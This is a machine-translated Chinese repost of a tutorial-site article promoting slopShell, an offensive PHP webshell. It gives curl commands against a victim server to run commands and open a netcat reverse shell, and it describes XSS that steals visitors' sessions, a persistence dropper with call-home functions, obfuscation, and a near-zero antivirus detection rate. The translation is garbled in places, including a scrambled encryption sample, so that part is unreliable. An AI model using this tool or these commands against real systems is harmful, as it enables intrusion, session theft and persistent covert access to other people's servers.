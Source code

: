 # slopShell:您需要的唯一 Php Webshell

> 原文：<https://kalilinuxtutorials.com/slopshell/>

[![slopShell : The Only Php Webshell You Need](img/c060e6eebdcc050779131a0d1702ecdd.png "slopShell : The Only Php Webshell You Need")](https://1.bp.blogspot.com/-GTQ9NYtnRpc/YMS_Cnk9iOI/AAAAAAAAJe0/UcaAX6pK-b4pJIWmGIuRLtfFjKvJrRYwgCLcBGAsYHQ/s728/slopShell%25281%2529.png)

slopShell 是你唯一需要的 Php Webshell。因为我练了，忘了说用法。开始了。

要让这个 shell 工作，您需要两样东西，一个允许 php 文件上传的受害者(您自己，在教育环境中)和一个向这个 webshell 发送 http 请求的方法。

感谢社区给予的所有支持，这对我们意义重大。现在来看看将会添加到这个外壳上的东西，让它变得更棒。

*   相互 TLS，能够动态生成 CA(如果可能的话)
*   更精致的滴管/外壳本身，确保外壳不会因长时间访问而被绊倒。

基本使用视频(托管在 Youtube 上):

![](img/1eae36872ec2d4a0ae4e55c7868886af.png)

当前室性心动过速检测比率:2/59

![Virus Total](img/f8de0c3643ec29f056606af70749be57.png)

当前室性心动过速检测比率(模糊版本):0/59

![Virus Total](img/f8de0c3643ec29f056606af70749be57.png)

**设置**

好了，我们开始吧，伙计们，有一个痒，我必须用 PHP 写点东西，所以这是它。这个 webshell 有一些额外的功能，并且每天都会添加更多。您将需要运行一个由您控制的 pgsql 服务器。无论你如何实施，都取决于你自己。

Debian: `**apt install -y postgresql php php-pear && python -m pip install proxybroker --user**`

RHEL 系统:`**dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user**`

胜利:`**install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.**`

一旦您正确地设置了这些，并且可以确认它们正在运行。我鼓励使用的一个命令是用 **`pg_ctl`** 你可以这样创建数据库，或者至少初始化它并启动它。那么所有的数据库查询都将正常工作。

**如何互动**

对于反分析程序，我(oldkingcone)很乐意尝试并以此为荣，但我不能凭良心说，所以灵感来自一个人(你知道你是谁，你这个邪恶的天才。)谁给我介绍了这个 repo:[https://github . com/null array/Archivist/blob/master/logger . py # L123](https://github.com/NullArray/Archivist/blob/master/logger.py#L123)首先，你需要选择一个有效的用户代理来使用，这有点像是防止你的 webshell 被除你之外的任何人意外发现的第一层保护。我选择了 sp/1.1，因为它不是典型的用户代理。这会导致 pentest 中出现危险信号，您的访问或脚本被阻止或删除。所以，放聪明点。代码混淆不会造成伤害，我没有把它加进去，因为这取决于你。要使用 shell，有一些预置来帮助您进行笔测试和机器遍历。我没有为 windows 添加太多，因为我不喜欢为 windows 开发。如果你增加了或知道了一些常规或技巧，请随时提出你的建议，我会补充的。如何将这个 webshell 与 curl 结合使用的示例:

`**curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v**`

或者执行自定义命令:

`**curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v**`

或者尝试为您的计算机建立一个反向 shell:

`**curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v**`

*   mthd =你要用来建立反向 shell 的方法，这是在`**$comma**`数组中预定义的，可以随意添加，可选，如果为 null，脚本会为你选择。
*   rhost = you，现在不需要这个和 rport，因为它默认使用 netcat，ip 地址在`**$_SERVER["REMOTE_ADDR"]**` php env 变量中。
*   rport =您的侦听器端口，默认设置为 1634，这是因为。
*   shell =您想要的系统 shell 类型。我知道 bash 并不是所有系统的标准，但是这就是为什么在您尝试执行这个命令之前做一些系统侦察是很好的。

这是这个壳的大部分。如果有人碰巧在这个外壳上没有提供脚本中指定的确切用户代理字符串，这个外壳将产生一个 500 错误和一个虚假的错误页面，然后它将尝试一些 XSS 来窃取该用户的会话信息，并将其发送回您的服务器/系统上的处理程序脚本。这将尝试将信息存储在正在运行的日志文件中。如果它不能这样做，那么备份就是你的日志。一旦 XSS 完成，这个 shell 将把用户重定向回 web 服务器的根目录(/)。因此，如果有人发现这一点，你将窃取会话，甚至可以加强它以代表用户在服务器上执行命令，或者通过 beef 或其他方法在用户浏览器上放置一个反向外壳。可能性是无限的。

**用例图像**

在浏览器中，导航到没有正确的用户代理字符串。(第一级授权)

![](img/6d2b448de92b6a5c63ced740289fb1e0.png)

在终端中使用，这就是它的设计工作方式，使用 curl 和-vH "User-Agent: sp1.1 "开关。

![](img/823eafeac677b640f4e93578403deaef.png)

混淆脚本示例:

![](img/71ba49fe83be7be4152141bb63fa69b6.png)

第 2 代模糊脚本:

![](img/bfa776f0bc35e01a717050e6a3d3f567.png)

**通过客户端脚本进行交互**

一旦客户机脚本完成，作为操作员的您将不再需要通过 curl 来使用这个 shell。将有一个客户端脚本，您可以使用它来执行所有命令/控制。除了这个客户端脚本，还有一个 dropper。这个滴管将确保脚本在启动时运行，即使网站被删除。包括一些 call home 函数，如果在从 1 到 3 的级别上请求混淆，3 是最高级别，因为每个函数都将被 rot 加密，然后在整个文件内以 base64 编码，以随机名称分配给文件本身。这有助于避免签名检测。

**加密**

一旦加密例程完全完成，dropper 脚本将被加密，并高度混淆。示例输出:

**Base64 解码:也是一个测试 123
重编码:ywxzbyhibhrlc 3 qgmtiz
密钥:4212 BD 1 ff 1d 366 f 23 ca 77021706 a9 a 29 CB 824 b45 f 82 AE 312 BCF 220 de 68 c 76760289 f1 d 550 aa 341002 f1 CFA 9831 e 871 e
密钥长度:96
加密结果:【T5**

**附加**

这是保密的。但我另有决定。

不要滥用这个外壳，并得到一个签名附在它上面，这是相当隐形的权利，因为它是全新的。

作为维护者，我对该产品的误用不负任何责任。这是为了合法渗透测试/红队目的，和/或教育价值而发布的。在使用本脚本之前，请了解您所在国家的适用法律，并且在使用本脚本时不要违反法律。谢谢你，祝你愉快。

如果你喜欢这个脚本，你有义务跟随我，并在这个回购上扔一颗星…因为未来的版本将有更多的功能(或错误)取决于你如何看待它。

[**Download**](https://github.com/oldkingcone/slopShell)